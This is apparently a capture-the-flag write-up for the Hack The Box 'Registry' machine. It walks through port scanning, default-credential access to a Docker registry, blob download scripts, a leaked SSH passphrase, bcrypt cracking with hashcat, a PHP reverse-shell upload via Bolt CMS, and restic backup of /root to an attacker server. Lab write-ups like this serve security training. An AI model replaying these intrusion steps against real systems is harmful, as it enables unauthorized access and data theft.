









# Steps

### NMAP
```
# Nmap 7.80 scan initiated Sun Oct 20 03:12:03 2019 as: nmap -sV -sC -oN inital -v 10.10.10.159
Nmap scan report for 10.10.10.159
Host is up (0.13s latency).
Not shown: 994 closed ports
PORT     STATE    SERVICE     VERSION
22/tcp   open     ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 72:d4:8d:da:ff:9b:94:2a:ee:55:0c:04:30:71:88:93 (RSA)
|   256 c7:40:d0:0e:e4:97:4a:4f:f9:fb:b2:0b:33:99:48:6d (ECDSA)
|_  256 78:34:80:14:a1:3d:56:12:b4:0a:98:1f:e6:b4:e8:93 (ED25519)
80/tcp   open     http        nginx 1.14.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Welcome to nginx!
443/tcp  open     ssl/http    nginx 1.14.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Welcome to nginx!
| ssl-cert: Subject: commonName=docker.registry.htb
| Issuer: commonName=Registry
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2019-05-06T21:14:35
| Not valid after:  2029-05-03T21:14:35
| MD5:   0d6f 504f 1cb5 de50 2f4e 5f67 9db6 a3a9
|_SHA-1: 7da0 1245 1d62 d69b a87e 8667 083c 39a6 9eb2 b2b5
4321/tcp filtered rwhois
4444/tcp filtered krb524
8001/tcp filtered vcom-tunnel
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Oct 20 03:12:42 2019 -- 1 IP address (1 host up) scanned in 38.45 seconds

```

###NIKTO
```
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.159
+ Target Hostname:    registry.htb
+ Target Port:        443
---------------------------------------------------------------------------
+ SSL Info:        Subject:  /CN=docker.registry.htb
                   Ciphers:  ECDHE-RSA-AES256-GCM-SHA384
                   Issuer:   /CN=Registry
+ Start Time:         2019-10-27 12:24:00 (GMT0)
---------------------------------------------------------------------------
+ Server: nginx/1.14.0 (Ubuntu)
+ Server leaks inodes via ETags, header found with file /, fields: 0x5cd06d79 0x264 
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS

```
Interesting Vhost:
- `docker.registry.htb`

The `docker.registry.htb` allows us to pull docker images and read any changes made by owner. It requires authenication. Just guessing we can get the credentials
```
admin:admin
```

I list repos in registry using
```
curl https://docker.registry.htb/v2/_catalog -u admin:admin -k
```

Finding out tags listed for repo using
```
curl https://docker.registry.htb/v2/bolt-image/tags/list# -u admin:admin -k
```

I download the manifest for listed tag to get sha5sum of blobs
```
curl https://docker.registry.htb/v2/bolt-image/manifests/latest -u admin:admin -k
```

I wrote a python script to download all blobs and unzip them
```python
import subprocess
blobs =[
    "sha256:302bfcb3f10c386a25a58913917257bd2fe772127e36645192fa35e4c6b3c66b",
    "sha256:3f12770883a63c833eab7652242d55a95aea6e2ecd09e21c29d7d7b354f3d4ee",
    "sha256:02666a14e1b55276ecb9812747cb1a95b78056f1d202b087d71096ca0b58c98c",
    "sha256:c71b0b975ab8204bb66f2b659fa3d568f2d164a620159fc9f9f185d958c352a7",
    "sha256:2931a8b44e495489fdbe2bccd7232e99b182034206067a364553841a1f06f791",
    "sha256:a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4",
    "sha256:f5029279ec1223b70f2cbb2682ab360e1837a2ea59a8d7ff64b38e9eab5fb8c0",
    "sha256:d9af21273955749bb8250c7a883fcce21647b54f5a685d237bc6b920a2ebad1a",
    "sha256:8882c27f669ef315fc231f272965cd5ee8507c0f376855d6f9c012aae0224797",
    "sha256:f476d66f540886e2bb4d9c8cc8c0f8915bca7d387e536957796ea6c2f8e7dfff"
]
value = 0
for blob in blobs:
    filename = str(value)+".tar.gz"
    url = "http://docker.registry.htb/v2/bolt-image/blobs/" + blob
    subprocess.call(['wget','--user','admin','--password','admin',url,'-O',filename])
    value = value + 1
    subprocess.call(['tar','-xf',filename])
    subprocess.call(['rm',filename])
```

We obtain filesystem files
```
➜ ls -la
total 88
drwxr-xr-x 21 zy1x zy1x 4096 Oct 27 13:07 .
drwxr-xr-x  3 zy1x zy1x 4096 Oct 27 13:03 ..
drwxr-xr-x  2 zy1x zy1x 4096 Apr 24  2019 bin
-rw-r--r--  1 zy1x zy1x 1139 Oct 27 13:06 blobs.py
drwxr-xr-x  2 zy1x zy1x 4096 Apr 24  2018 boot
drwxr-xr-x  4 zy1x zy1x 4096 Apr 24  2019 dev
drwxr-xr-x 48 zy1x zy1x 4096 Apr 24  2019 etc
drwxr-xr-x  2 zy1x zy1x 4096 Apr 24  2018 home
drwxr-xr-x  8 zy1x zy1x 4096 May 23  2017 lib
drwxr-xr-x  2 zy1x zy1x 4096 Apr 24  2019 lib64
drwxr-xr-x  2 zy1x zy1x 4096 Apr 24  2019 media
drwxr-xr-x  2 zy1x zy1x 4096 Apr 24  2019 mnt
drwxr-xr-x  2 zy1x zy1x 4096 Apr 24  2019 opt
drwxr-xr-x  2 zy1x zy1x 4096 Apr 24  2018 proc
drwx------  3 zy1x zy1x 4096 Apr 24  2019 root
drwxr-xr-x  7 zy1x zy1x 4096 Apr 24  2019 run
drwxr-xr-x  2 zy1x zy1x 4096 Apr 24  2019 sbin
drwxr-xr-x  2 zy1x zy1x 4096 Apr 24  2019 srv
drwxr-xr-x  2 zy1x zy1x 4096 Apr 24  2018 sys
drwxr-xr-x  2 zy1x zy1x 4096 Apr 24  2019 tmp
drwxr-xr-x 10 zy1x zy1x 4096 Apr 24  2019 usr
drwxr-xr-x 12 zy1x zy1x 4096 Apr 24  2019 var
```

Found intresting file and directories in `root` directory
- `.ssh`
- `.bash_history`

Reading files mentioned in `.bash_history` I found password for ssh
```sh
➜ cat ../etc/profile.d/02-ssh.sh 
#!/usr/bin/expect -f
#eval `ssh-agent -s`
spawn ssh-add /root/.ssh/id_rsa
expect "Enter passphrase for /root/.ssh/id_rsa:"
send "GkOcz221Ftb3ugog\n";
expect "Identity added: /root/.ssh/id_rsa (/root/.ssh/id_rsa)"
interact
```
Using the private key in `.ssh/id_rsa` and password we obtain user shell
```
➜ ssh -i .ssh/id_rsa bolt@registry.htb
Enter passphrase for key '.ssh/id_rsa': 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-65-generic x86_64)

  System information as of Sun Oct 27 08:47:18 UTC 2019

  System load:  0.12              Users logged in:                1
  Usage of /:   5.6% of 61.80GB   IP address for eth0:            10.10.10.159
  Memory usage: 36%               IP address for br-1bad9bd75d17: 172.18.0.1
  Swap usage:   0%                IP address for docker0:         172.17.0.1
  Processes:    182
Last login: Sun Oct 27 08:46:42 2019 from 10.10.14.185
bolt@bolt:~$ 
```

I found `bolt` directory in /var/www/html/ which turns out be CMS website

Login page can be found at `http://registry.htb/bolt/bolt`



Enumerating files system I found a database file `/var/www/html/bolt/app/database/bolt.db` with login hash in it (bcrypt)
```
admin$2y$10$e.ChUytg9SrL7AsboF2bX.wWKQ1LkS5Fi3/Z0yYD86.P5E9cpY7PK
```

### Using hashcat to decrypt password
```
➜ hashcat -m 3200 hash /seclists/Passwords/Leaked-Databases/rockyou.txt                
hashcat (v5.1.0) starting...                                                                  
                                                                                              
OpenCL Platform #1: Intel(R) Corporation
========================================
* Device #1: Intel(R) Core(TM) i5-4440 CPU @ 3.10GHz, 1974/7899 MB allocatable, 4MCU

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers:
* Zero-Byte
* Single-Hash
* Single-Salt

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 72 

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Dictionary cache hit:
* Filename..: /seclists/Passwords/Leaked-Databases/rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497 
* Keyspace..: 14344384

$2y$10$e.ChUytg9SrL7AsboF2bX.wWKQ1LkS5Fi3/Z0yYD86.P5E9cpY7PK:strawberry
                                                  
Session..........: hashcat
Status...........: Cracked
Hash.Type........: bcrypt $2*$, Blowfish (Unix) 
Hash.Target......: $2y$10$e.ChUytg9SrL7AsboF2bX.wWKQ1LkS5Fi3/Z0yYD86.P...cpY7PK
Time.Started.....: Sun Oct 27 21:09:51 2019 (10 secs)
Time.Estimated...: Sun Oct 27 21:10:01 2019 (0 secs)
Guess.Base.......: File (/seclists/Passwords/Leaked-Databases/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:       54 H/s (9.23ms) @ Accel:8 Loops:2 Thr:8 Vec:8
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 512/14344384 (0.00%)
Rejected.........: 0/512 (0.00%)
Restore.Point....: 256/14344384 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:1022-1024
Candidates.#1....: angelo -> letmein

```

Bolt CMS has file upload vulnerrability. We can modify `Configuration > Main Configuration/config.yml` to accept php files for upload. Upload a php reverse shell with parameters to connect to localhost and receive shell when logged on as bolt.





Checking for local privilege escalation I noticed that we have sudo permission for restic binary



Reading documentation for restic and rest-server. I found out I could host a rest-server and create backup of /root/ to my server.

### Hosting rest-server


### Initializing restic repository


### Creating backup from victim machine


### Restoring backup using snapshot id



Read the `root.txt` from restored folder.
